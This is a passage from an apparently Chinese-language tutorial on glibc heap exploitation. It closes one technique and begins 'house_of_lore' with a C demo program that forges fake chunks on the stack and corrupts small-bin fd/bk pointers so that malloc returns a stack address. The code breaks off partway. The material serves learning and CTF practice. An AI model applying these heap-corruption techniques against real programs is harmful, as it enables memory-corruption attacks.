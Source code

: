    那么接下来的事情就是申请一块大的chunk，然后随便改写b2的内容了。

 ![image-20211226161037363](/images/heap/image-20211226161037363.png)

##  house_of_lore

​    源码如下。

 ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 #include <stdint.h>
 
 void jackpot(){ fprintf(stderr, "Nice jump d00d\n"); exit(0); }
 
 int main(int argc, char * argv[]){
 
   intptr_t* stack_buffer_1[4] = {0};
   intptr_t* stack_buffer_2[3] = {0};
   fprintf(stderr, "定义了两个数组");
   fprintf(stderr, "stack_buffer_1 在 %p\n", (void*)stack_buffer_1);
   fprintf(stderr, "stack_buffer_2 在 %p\n", (void*)stack_buffer_2);
 
   intptr_t *victim = malloc(100);
   fprintf(stderr, "申请第一块属于 fastbin 的 chunk 在 %p\n", victim);
   intptr_t *victim_chunk = victim-2;//chunk 开始的位置
 
   fprintf(stderr, "在栈上伪造一块 fake chunk\n");
   fprintf(stderr, "设置 fd 指针指向 victim chunk，来绕过 small bin 的检查，这样的话就能把堆栈地址放在到 small bin 的列表上\n");
   stack_buffer_1[0] = 0;
   stack_buffer_1[1] = 0;
   stack_buffer_1[2] = victim_chunk;
 
   fprintf(stderr, "设置 stack_buffer_1 的 bk 指针指向 stack_buffer_2，设置 stack_buffer_2 的 fd 指针指向 stack_buffer_1 来绕过最后一个 malloc 中 small bin corrupted, 返回指向栈上假块的指针");
   stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
   stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
 
   void *p5 = malloc(1000);
   fprintf(stderr, "另外再分配一块，避免与 top chunk 合并 %p\n", p5);
 
   fprintf(stderr, "Free victim chunk %p, 他会被插入到 fastbin 中\n", victim);
   free((void*)victim);
 
   fprintf(stderr, "\n此时 victim chunk 的 fd、bk 为零\n");
   fprintf(stderr, "victim->fd: %p\n", (void *)victim[0]);
   fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);
 
   fprintf(stderr, "这时候去申请一个 chunk，触发 fastbin 的合并使得 victim 进去 unsortedbin 中处理，最终被整理到 small bin 中 %p\n", victim);
   void *p2 = malloc(1200);
 
 ```